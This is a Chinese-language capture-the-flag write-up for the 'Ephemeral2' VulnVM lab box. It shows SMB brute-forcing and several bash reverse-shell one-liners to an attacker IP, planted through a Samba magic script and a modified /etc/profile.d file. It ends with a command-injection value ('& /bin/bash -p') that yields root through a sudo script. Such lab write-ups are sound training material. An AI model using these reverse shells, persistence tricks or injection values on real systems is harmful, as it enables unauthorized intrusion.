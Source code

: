 ```yaml
---
title: "VulnVM-Ephermeral2"
date: 2025-03-07
categories: 
  - "vulnvm"
tags: 
  - "linux"
  - "vulnvm"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/Ephemeral2  
❯ nmap 192.168.56.107 -sV -A -p- 

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0a:cc:f1:53:7e:6b:31:2c:10:1e:6d:bc:01:b1:c3:a2 (RSA)
|   256 cd:19:04:a0:d1:8a:8b:3d:3e:17:ee:21:5d:cd:6e:49 (ECDSA)
|_  256 e5:6a:27:39:ed:a8:c9:03:46:f2:a5:8c:87:85:44:9e (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 08:00:27:47:B9:0F (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: EPHEMERAL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2025-03-07T16:30:22
|_  start_date: N/A
|_clock-skew: 7h59m57s
```

## Gobuster

```
[root@kali] /home/kali/Ephemeral2  
❯ gobuster dir -u http://192.168.56.107 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50                                                                                                ⏎
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.107
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/javascript           (Status: 301) [Size: 321] [--> http://192.168.56.107/javascript/]
/server-status        (Status: 403) [Size: 279]
/foodservice          (Status: 301) [Size: 322] [--> http://192.168.56.107/foodservice/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

存在一个**/foodservice**页面

![](./images/image-104.png)

## Enumeration

```
[root@kali] /home/kali/Ephemeral2  
❯ enum4linux -a 192.168.56.107
```

![](./images/image-105.png)

有两个本地用户：**randy**和**ralph**

尝试爆破**randy**的密码，这里使用的是`msfconsole`

![](./images/image-107.png)

![](./images/image-108.png)

得到密码是**pogiako**

在这里我尝试使用crackmapexec smb 进行身份验证，但是却失败了，为什么？难道是两个工具的差异，还是说SMB版本的问题？  
暂时留在这里，因为我搜索不到相关信息。

## Own Randy

进入**SYSADMIN**目录，下载文件

![](./images/image-109.png)

查看**smb.conf**配置

```
[SYSADMIN]

path = /home/randy/SYSADMIN
valid users = randy
browsable = yes
writeable = yes
read only = no
magic script = smbscript.elf
guest ok = no
```

**magic script = smbscript.elf**  
这个选项指定了一个名为 `smbscript.elf` 的脚本文件，它将在访问共享时作为 "magic" 脚本运行。该脚本通常用于特定的自动化任务，如身份验证、权限控制等。

因此可以上传一个恶意脚本进行反弹**Shell**

```
[root@kali] /home/kali/Ephemeral2  
❯ cat smbscript.elf 
bash -c "bash -i >& /dev/tcp/192.168.56.104/6666 0>&1"
```

将自己的**id\_rsa.pub**写入到**/home/randy/.ssh/authorized\_keys**中，再**SSH**登录

在**/home/ralph**中发现**user.txt**但是无法读取！

![](./images/image-110.png)

## Own ralph

查看定时任务发现**ralph**每分钟会执行一次**ssh.sh**脚本

![](./images/image-111.png)

```
randy@ephemeral:/tmp$ cat /home/ralph/tools/ssh.sh 
#!/bin/bash

/usr/bin/ssh -o "StrictHostKeyChecking no" ralph@localhost -i /home/ralph/.ssh/id_rsa
```

而randy用户对以下文件具有可写权限

![](./images/image-112.png)

**`/etc/profile.d/` 目录**：该目录下的文件会在 **用户登录时** 被执行（包括 **SSH** 登录）。文件通常会配置一些环境变量、命令别名、终端外观等。

因此可以写入反弹**shell**的语句

```
randy@ephemeral:/usr/bin$ cat /etc/profile.d/bash_completion.sh 
# shellcheck shell=sh disable=SC1091,SC2039,SC2166
# Check for interactive bash and that we haven't already been sourced.
if [ "x${BASH_VERSION-}" != x -a "x${PS1-}" != x -a "x${BASH_COMPLETION_VERSINFO-}" = x ]; then

    # Check for recent enough version of bash.
    if [ "${BASH_VERSINFO[0]}" -gt 4 ] || \
       [ "${BASH_VERSINFO[0]}" -eq 4 -a "${BASH_VERSINFO[1]}" -ge 1 ]; then
        [ -r "${XDG_CONFIG_HOME:-$HOME/.config}/bash_completion" ] && \
            . "${XDG_CONFIG_HOME:-$HOME/.config}/bash_completion"
        if shopt -q progcomp && [ -r /usr/share/bash-completion/bash_completion ]; then
            # Source completion code.
            . /usr/share/bash-completion/bash_completion
        fi
    fi

fi
bash -i >& /dev/tcp/192.168.56.104/6666 0>&1
```

得到反弹**shell**后同样写入公钥

![](./images/image-113.png)

## Root

查看特殊命令

```
ralph@ephemeral:~$ sudo -l
Matching Defaults entries for ralph on ephemeral:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ralph may run the following commands on ephemeral:
    (root) NOPASSWD: /usr/bin/python3 /home/ralph/getfile.py
```

暂时无法直接查看**getfile.py**的内容

似乎他是在**POST**传递一个东西

![](./images/image-114.png)

尝试在输入参数的时候添加其他命令

```
ralph@ephemeral:~$ sudo /usr/bin/python3 /home/ralph/getfile.py 
File path: any 
IP address: any & /bin/bash -p
```

![](./images/image-115.png)

成功进入到**root**！

## Summary

`User`：**enum4linux**扫描到存在**randy**用户，对其进行**SMB**爆破登录，读取smb配置文件可以上传一个魔术脚本，在登陆时会自动运行，因此得到**randy**的权限。查看定时任务得知，**ralph**每分钟会执行他的**ssh**脚本，同时**randy**可以修改**/etc/profile.d/**下的**ssh**登陆后的配置文件，从而得到**ralph**的权限。

`Root`：**ralph**有一个无法读取源码，似乎是传一个文件的脚本，通过对参数的注入，得到**root**权限。
